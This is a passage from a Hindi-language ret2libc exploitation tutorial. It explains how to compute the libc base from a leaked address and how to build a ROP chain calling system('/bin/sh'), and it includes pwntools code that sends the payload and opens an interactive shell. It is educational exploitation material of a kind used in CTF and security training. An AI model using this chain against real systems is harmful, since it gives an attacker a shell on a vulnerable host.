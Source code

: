 ## 3.3- लीक करने के लिए अन्य फ़ंक्शन्स
```python
puts
printf
__libc_start_main
read
gets
```
# 4- आधारित libc पता लगाना और उपयोग करना

इस बिंदु पर हमें लिबीसी पुस्तकालय का उपयोग किया जाना चाहिए। जैसा कि हम एक स्थानीय बाइनरी का उपयोग कर रहे हैं, मैं केवल इसका उपयोग करूंगा: `/lib/x86_64-linux-gnu/libc.so.6`

इसलिए, `template.py` की शुरुआत में **libc** चर को बदलें: `libc = ELF("/lib/x86_64-linux-gnu/libc.so.6") #जब इसे जानते हो तो पुस्तकालय पथ सेट करें`

**libc पुस्तकालय** के **पथ** को देने से **शेष अधिकार को स्वचालित रूप से गणना की जाएगी**।

`get_addr` फ़ंक्शन के अंदर **libc का आधार पता** गणना होगा:
```python
if libc != "":
libc.address = leak - libc.symbols[func_name] #Save libc base
log.info("libc base @ %s" % hex(libc.address))
```
{% hint style="info" %}
ध्यान दें कि **अंतिम libc बेस पता 00 से समाप्त होना चाहिए**। यदि ऐसा नहीं है तो आपने गलत पुस्तकालय को लीक कर सकते हैं।
{% endhint %}

फिर, `system` फ़ंक्शन के पते और स्ट्रिंग _"/bin/sh"_ के **पते** की **गणना** **libc** के **बेस पते** से की जाएगी और दिए गए **libc पुस्तकालय** से।
```python
BINSH = next(libc.search("/bin/sh")) - 64 #Verify with find /bin/sh
SYSTEM = libc.sym["system"]
EXIT = libc.sym["exit"]

log.info("bin/sh %s " % hex(BINSH))
log.info("system %s " % hex(SYSTEM))
```
अंत में, /bin/sh निष्पादन अभिकरण तैयार किया जाएगा और भेजा जाएगा:
```python
rop2 = OFFSET + p64(POP_RDI) + p64(BINSH) + p64(SYSTEM) + p64(EXIT)

p.clean()
p.sendline(rop2)

#### Interact with the shell #####
p.interactive() #Interact with the conenction
```
चलो इस अंतिम ROP को समझाते हैं।
अंतिम ROP (`rop1`) में हम फिर से मुख्य फ़ंक्शन को कॉल कर रहे थे, फिर हम **ओवरफ़्लो** का फिर से **उपयोग कर सकते हैं** (इसीलिए `OFFSET` यहां फिर से है)। फिर, हम `POP_RDI` को **पॉइंट करना चाहते हैं** _"/bin/sh"_ के **पते** (`BINSH`) और **सिस्टम** फ़ंक्शन (`SYSTEM`) को कॉल करना चाहते हैं क्योंकि _"/bin/sh"_ का पता पैरामीटर के रूप में पास किया जाएगा।
अंत में, **एक्ज़िट फ़ंक्शन का पता** **कॉल किया जाता है** ताकि प्रक्रिया **अच्छी तरह से समाप्त हो** और कोई चेतावनी उत्पन्न नहीं होती है।
